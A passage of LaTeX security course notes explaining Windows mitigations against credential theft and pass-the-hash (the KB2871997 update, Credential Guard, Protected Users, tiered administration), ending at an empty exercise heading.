
\includegraphics[width=\textwidth]{resources/11-mimikatz-just-ask.png}

\subsection{Credential Abuse Countermeasures}
How can we fix this?

\begin{itemize}
    \item Microsoft released KB2871997 in 2014 [3]
    \item There was a lot of confusion about what this update does.
    \item In fact, Microsoft finally renamed the update to better reflect what it does:
    \item “Improve Credentials Protection \& Management”
\end{itemize}
\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-just-ask-microsoft-response.png}
\end{center}

Among other improvements to mitigate risk of pass-the-hash attacks (see topic “NTLM Authentication and Abuse”), it improves how Windows handles credentials, e.g.:
\begin{itemize}
    \item restrict logon credential cache to logon lifetime
    \item restrict Kerberos/NTLM/Digest/CredSSP supplied credential cache
    \item restrict Kerberos cache of plain text password
    \item do not cache logon credential in CredSSP unless Credentials Delegation policy allows
    \item restrict use of logon credential for Digest
\end{itemize}

\subsubsection*{Credential Guard}
Win10 / Windows Server 2016 have a new technology called Credential Guard, which isolates secrets in virtualized secure environments rather than storing everything in LSASS, where administrator-level attackers can steal them.

\subsection*{Countermeasures Recap}

Credentials need to be stored on windows machines, in order to allow Single-Sign-On. This inherently brings the risk of cached credentials being stolen. However, you can mitigate the risk by:

\begin{itemize}
   \item \textbf{No password re-use}, use \textbf{strong passwords} and \textbf{protect hashes}
   
   \item Implement \textbf{Logon Restrictions} for your privileged accounts to limit exposure
   
   \item Deploy an \textbf{Active Directory administrative tier model}
   
   \item Make use of the \textbf{Protected Users Group in Windows AD}
   
   \item Further \textbf{MS recommendations to mitigate pass-the-hash} attacks
   
   \item Deploy \textbf{Credential Guard}
\end{itemize}

\section{exercise}
